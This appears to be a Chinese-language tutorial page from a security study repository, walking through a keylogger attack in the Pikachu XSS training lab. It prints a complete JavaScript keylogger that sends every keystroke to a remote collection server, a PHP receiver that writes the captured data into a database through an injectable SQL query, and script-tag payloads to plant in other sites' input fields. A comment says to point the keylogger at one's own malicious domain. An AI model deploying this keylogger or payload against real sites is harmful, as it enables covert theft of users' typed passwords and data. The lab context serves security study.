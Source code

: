 ## 当前浏览器页面，输入的键盘记录
### 1、使用js代码进行记录，只能记录在这个网页上的键盘记录
#### 进入pikachu的容器内，查看键盘记录脚本
发送键盘记录的脚本rk.js 
```shell script
root@f2e1fe30d200:/var/www/html/pkxss/rkeypress# cat /var//www/html/pkxss/rkeypress/rk.js 
/**
 * Created by runner on 2018/7/8.
 */

function createAjax(){
    var request=false;
    if(window.XMLHttpRequest){
        request=new XMLHttpRequest();
        if(request.overrideMimeType){
            request.overrideMimeType("text/xml");
        }

    }else if(window.ActiveXObject){

        var versions=['Microsoft.XMLHTTP', 'MSXML.XMLHTTP', 'Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
        for(var i=0; i<versions.length; i++){
            try{
                request=new ActiveXObject(versions[i]);
                if(request){
                    return request;
                }
            }catch(e){
                request=false;
            }
        }
    }
    return request;
}

var ajax=null;
var xl="datax=";

function onkeypress() {
    var realkey = String.fromCharCode(event.keyCode);
    xl+=realkey;
    show();
}

document.onkeypress = onkeypress;

function show() {
    ajax = createAjax();
    ajax.onreadystatechange = function () {
        if (ajax.readyState == 4) {
            if (ajax.status == 200) {
                var data = ajax.responseText;
            } else {
                alert("页面请求失败");
            }
        }
    }

    var postdate = xl;
    ajax.open("POST", "http://172.16.120.252:8085/pkxss/rkeypress/rkserver.php",true); # 需要修改到哪里到服务器，接收键盘记录；这个php脚本，是接收js传过来到键盘记录到的
#    ajax.open("POST", "http://自己接收键盘记录的恶意域名/pkxss/rkeypress/rkserver.php",true); # 需要修改到哪里到服务器，接收键盘记录；这个php脚本，是接收js传过来到键盘记录到的
    ajax.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    ajax.setRequestHeader("Content-length", postdate.length);
    ajax.setRequestHeader("Connection", "close");
    ajax.send(postdate);
```
接收键盘记录的脚本rkserver.php
```shell script
<?php
/**
 * Created by runner.han
 * There is nothing new under the sun
 */

include_once '../inc/config.inc.php';
include_once '../inc/mysql.inc.php';
$link=connect();

//设置允许被跨域访问
header("Access-Control-Allow-Origin:*");

$data = $_POST['datax'];
$query = "insert keypress(data) values('$data')";
$result=mysqli_query($link,$query);


?>
```
### 2、找到存储型xss。输入payload
#### 这个payload是个自己搭建的恶意域名，在其他网站的输入框输入
```shell script
<script src="http://自己发送键盘记录的恶意域名/pkxss/rkeypress/rk.js"></script>
```
```shell script
<script src="http://172.16.120.252:8085/pkxss/rkeypress/rk.js"></script>
```
![image](https://github.com/498946975/Security/blob/master/images/xss_17.png)
### 3、登陆pikachu后台，进行查看
http://172.16.120.252:8085/pkxss/xssmanager.php
![image](https://github.com/498946975/Security/blob/master/images/xss_9.png)
![image](https://github.com/498946975/Security/blob/master/images/xss_10.png)
